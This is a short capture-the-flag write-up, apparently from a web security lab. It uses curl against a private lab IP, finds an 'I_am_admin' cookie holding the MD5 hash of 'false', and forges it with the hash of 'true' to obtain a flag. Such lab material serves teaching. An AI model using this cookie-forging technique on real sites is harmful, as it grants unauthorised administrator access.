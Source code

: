 # Cookies

__curl -v -s 'http://192.168.99.101' -o out.file__

## Description
The command can send to url cookies.

## Form Outputs
Then we get the following output.
```
* Rebuilt URL to: http://192.168.99.101/
*   Trying 192.168.99.101...
* TCP_NODELAY set
* Connected to 192.168.99.101 (192.168.99.101) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.99.101
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Mon, 18 Sep 2023 19:41:50 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.5.9-1ubuntu4.29
< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Mon, 18-Sep-2023 20:41:50 GMT; Max-Age=3600
< 
{ [6905 bytes data]
* Connection #0 to host 192.168.99.101 left intact
```

## Flag
Let's convert [I_am_admit](#https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327) from md5. We get __false__. </br>
So what about __true__ ```echo -n 'true' | md5``` -> 'b326b5062b2f0e69046810717534cb09'
When we compare the outputs with cookies true and false weget the next flag.
```
curl -s 'http://192.168.99.101' -o false.html
curl -s --cookie I_am_admin=$(echo -n 'true' | md5) 'http://192.168.99.101' -o true.html 
diff false.html true.html 
```

## Safety
We should learn about cookies and how they can be used to track user activity on a website. </br>
Specifically, you should learn how to use the curl command to send cookies to a URL and how to compare the output of two requests with different cookie values to determine if a flag is present. </br>
Additionally, you should be aware of the potential risks associated with cookies, such as the possibility of them being stolen or used for malicious purposes.